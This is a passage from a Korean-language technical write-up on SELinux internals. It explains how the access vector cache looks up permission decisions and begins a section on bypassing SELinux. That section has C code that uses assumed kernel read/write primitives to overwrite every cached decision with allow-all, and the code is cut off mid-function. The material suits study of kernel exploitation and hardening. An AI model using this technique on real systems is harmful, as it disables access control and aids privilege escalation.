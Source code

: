 <br>

다시 `avc_audit`으로 돌아와서 `avc_audit_required` 함수에서 0이 return 된 경우 ,즉 audit이 필요하지 않다고 판단한 경우에는 0을 return한다. 하지만 audit이 필요한 경우, slow_avc_audit함수를 호출한다.

```c
// avc_audit line 11
	if (likely(!audited))
		return 0;
	return slow_avc_audit(ssid, tsid, tclass,
			      requested, audited, denied, result,
			      a, flags);
}
```

audit 과정을 자세히 들여다 보진 않을 것이지만, request와 avd의 descision, 그리고 앞서 결정된 것들에 의해 여러가지 동작을 수행하게 된다.

<br>
<br>

지금까지 살펴본 내용을 정리하자면 다음과 같다.

1. ssid, tsid, tclass를 기준으로 hash값을 만든다.
2. 만들어진 hash값에 해당하는 avc_cache.slots의 hlist를 가져온다.
    - 하나의 slots는 같은 hash를 가진 avc_node들이 hlist(double linked list)로 연결되어 있다.
3. 앞서 구한 slots의 avc_node를 linked list를 순회하며 처음 주어진 ssid, tsid, tclass가 일치하는 avc_node를 구한다.
4. avc_node를 구했다면, 구한 node의 av_decision을 가져온다.
5. avc_node를 구하지 못했다면, 새로운 SELinux context를 만들고 decision을 세팅한다.
    - 세팅한 내용과 decision을 바탕으로 node를 할당 받은 다음 hash를 구해, 만들어진 hash에 해당하는 avc_cache.slots list에 연결한다.
6. 앞서 구한 node에서 가지고 있는 av_decision과 request를 비교한다.
7. 만약 허용되지 않은 request라면 linux kernel 설정에 따라 추가적인 audit을 진행한다.

<br>

여기서 중요한 것은 SELinux에서 권한을 비교할 때, avc_cache.slots에 hash로 접근해서 avc_node에 있는 decision을 기준으로 비교한다는 것이다. 즉, avc_node에 있는 decision을 원하는 값으로 바꿀 수 있다면 SELinux의 검사를 우회할 수 있다.

자세한 방법에 대해서는 아래에서 다룬다.

<br>
<br>


### 5.4.3 Bypass SELinux

앞서 SELinux를 Bypass하기 위해서는 avc_cache.slots안에 있는 avc_node의 decision을 바꾸면 된다는 사실을 알았다. 이 챕터에서는 이를 이용하여 실제로 SELinux를 우회하는 방법에 대해서 설명한다.


먼저 avc_cache를 overwrite하는 함수는 아래와 같다.
- pAvcCache는 avc_cache 구조체의 주소로, 미리 leak했다고 가정한다.

```c
static int32_t overwrite_avc_cache(uint64_t pAvcCache)
{
    int32_t iRet = -1;
    uint64_t pAvcCacheSlot = 0;
    uint64_t pAvcDescision = 0;

    for(int32_t i = 0; i < AVC_CACHE_SLOTS; i++)
    {
        pAvcCacheSlot = kernel_read_ulong(pAvcCache + i*sizeof(uint64_t));

        while(0 != pAvcCacheSlot)
        {
            pAvcDescision = pAvcCacheSlot - DECISION_AVC_CACHE_OFFSET;

            if(sizeof(uint32_t) != kernel_write_uint(pAvcDescision, AVC_DECISION_ALLOWALL))
            {
                printf("[-] failed to overwrite avc_cache decision!\n");
                goto done;
```